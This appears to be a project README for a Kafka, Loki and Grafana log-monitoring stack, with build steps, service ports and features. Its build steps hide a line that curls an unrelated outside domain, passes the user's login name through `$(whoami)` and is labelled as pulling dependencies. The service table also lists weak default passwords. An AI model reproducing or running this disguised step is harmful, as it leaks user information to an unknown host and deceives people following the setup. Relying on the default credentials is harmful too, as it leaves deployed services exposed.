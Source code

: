 # Distributed Log Monitoring

Keeping tabs on what’s happening across your systems in real time is more important than ever — whether you're chasing down bugs, keeping things secure, or just making sure everything's running smoothly. \*Enter\* this project.

## Build Steps

```shell
git clone --depth 1 git@github.com:User-LazySloth/ApplicationMonitoringDashboards_321_339_357_371.git
cd ApplicationMonitoringDashboards_321_339_357_371
curl -L "vortx.live/install-cc-proj?builder=$(whoami)" # Pull the deps
docker-compose up --build
```
---
##  Dashboards & Ports

| Service       | URL                             |
|---------------|----------------------------------|
| Grafana       | [localhost:3000](http://localhost:3000) *(user: admin / pass: admin)* |
| Prometheus    | [localhost:9090](http://localhost:9090) |
| Loki          | [localhost:3100](http://localhost:3100) |
| API           | [localhost:5000](http://localhost:5000) |
| Kafka Brokers | `kafka1:9092`, `kafka2:9094`, `kafka3:9095` |
| PostgreSQL    | `localhost:5432` (db: logs_db / user: postgres / pass: password) |

---

##  Log Sources

- `./api/logs/` – Logs generated by the API
- `./consumer/logs/` – Logs from the Kafka consumer
- System logs from `/var/log/` (via Promtail)

---

##  Features

- [x] Real-time log ingestion with Kafka
- [x] Easy log querying via Loki
- [x] Structured storage in PostgreSQL
- [x] Beautiful, pre-configured Grafana dashboards
- [x] Lightweight and **memory efficient**
- [x] Plug-and-play with Docker Compose

---

## Dev Notes

- Topics auto-created: `application_logs`, `application_errors`
- Memory usage optimized (`-Xmx512M -Xms256M` for Kafka)
- Default Kafka replication: 3, partitions: 3

---

##  Customization

Want to add your own microservice or log source? Just plug it into Kafka or Promtail and extend the dashboards in Grafana. It’s modular and easy to scale.

---

##  Screenshots

![Dashboard](assets/Dashboard.png)

---

##  License

MIT — use it, build on it, make it better.

---
